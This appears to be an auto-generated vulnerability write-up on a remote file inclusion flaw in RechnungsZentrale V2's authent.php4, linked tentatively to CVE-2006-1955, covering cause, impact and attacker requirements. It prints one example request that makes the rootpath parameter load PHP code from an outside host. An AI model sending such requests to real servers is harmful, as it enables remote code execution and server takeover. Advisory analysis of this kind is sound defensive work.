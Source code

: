 Based on the provided content, here's an analysis of the vulnerability:

**CVE ID:** Although the provided text includes a CVE ID of "N/A", it references a vulnerability that could potentially be related to CVE-2006-1955. Further investigation of RechnungsZentrale V2 is needed to confirm.

**Root Cause of Vulnerability:**
- The root cause is a **Remote File Inclusion (RFI)** vulnerability in RechnungsZentrale V2. This means the application allows an attacker to include a remote file, such as a malicious PHP script.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The `authent.php4` script in RechnungsZentrale V2 is vulnerable to RFI via the `rootpath` parameter.
- **SQL Injection:** Although not the main focus, there is also a mention of an SQL injection vulnerability, with a sample payload provided.

**Impact of Exploitation:**
- **Remote Code Execution:** By including a malicious PHP file via the RFI vulnerability, an attacker can execute arbitrary code on the server hosting the vulnerable application. This can lead to complete server compromise.
- **Data theft/manipulation:** The SQL injection vulnerability could lead to the disclosure or manipulation of sensitive information.

**Attack Vectors:**
- **HTTP GET Request:** The RFI attack vector involves crafting a malicious HTTP GET request with the vulnerable parameter pointing to a remote file.
  ```
  http://www.victim.tld/mod/authent.php4?rootpath=Http://server.tld/mod/db.php4
  ```

**Required Attacker Capabilities/Position:**
- **Network access:** The attacker must have network access to the vulnerable application.
- **Knowledge of the vulnerable parameter:** The attacker must know about the vulnerable parameter `rootpath` and the vulnerable file (`authent.php4`).
- **Hosting/Control of a malicious file:** The attacker must host a malicious PHP file on a server accessible to the vulnerable application, which can be loaded into the application using the RFI vulnerability.

**Additional Notes:**
- The exploit-db entry provides version information, indicating that versions prior to 1.1.3 of RechnungsZentrale V2 are vulnerable, and possibly 1.1.3 as well.
- The exploit-db entry is from 2006-04-19 which aligns with CVE-2006-1955 year.
- The exploit also mentions a basic SQL Injection, which is not part of the CVE details.